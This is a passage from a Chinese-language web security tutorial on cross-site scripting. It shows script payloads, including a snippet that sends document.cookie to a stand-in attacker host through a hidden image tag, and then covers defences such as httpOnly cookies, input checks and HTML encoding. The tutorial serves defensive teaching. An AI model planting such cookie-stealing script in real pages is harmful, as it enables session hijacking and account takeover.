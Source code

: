   这时，网站就挂了。

- 当然，最常见 xss 攻击是读取 Cookie：

  ```
    <script>
        alert(document.cookie)
    </script>复制代码
  ```

  

  ![img](F:\Code\github\前端-安全\assets\aa56d21af683d668e82458e05d731c30)

  

  Cookie 发送给攻击者的站点：

  ```
    var img = document.createElement('img')
    img.src='http://www.xss.com?cookie=' + document.cookie
    img.style.display='none'
    document.getElementsByTagName('body')[0].appendChild(img)复制代码
  ```

  当前用户的登录凭证存储于服务器的 session 中，而在浏览器中是以 cookie 的形式存储的。如果攻击者能获取到用户登录凭证的 Cookie，甚至可以绕开登录流程，直接设置这个 Cookie 值，来访问用户的账号。

### 防御

按理说，只要有输入数据的地方，就可能存在 XSS 危险。

- httpOnly: 在 cookie 中设置 HttpOnly 属性后，js脚本将无法读取到 cookie 信息。

  ```
    // koa
    ctx.cookies.set(name, value, {
        httpOnly: true // 默认为 true
    })
    `复制代码
  ```

- 过滤

  - 输入检查，一般是用于对于输入格式的检查，例如：邮箱，电话号码，用户名，密码……等，按照规定的格式输入。

    不仅仅是前端负责，后端也要做相同的过滤检查。

    因为攻击者完全可以绕过正常的输入流程，直接利用相关接口向服务器发送设置。

  - HtmlEncode
    某些情况下，不能对用户数据进行严格过滤，需要对标签进行转换

    

    ![img](F:\Code\github\前端-安全\assets\4d4d037c9605e38189a4f55b017556f1)

    

    当用户输入`<script>window.location.href=”http://www.baidu.com”;</script>`, 最终保存结果为 `&lt;script&gt;window.location.href=&quot;http://www.baidu.com&quot;&lt;/script&gt;`, 在展现时，浏览器会对这些字符转换成文本内容，而不是一段可以执行的代码。
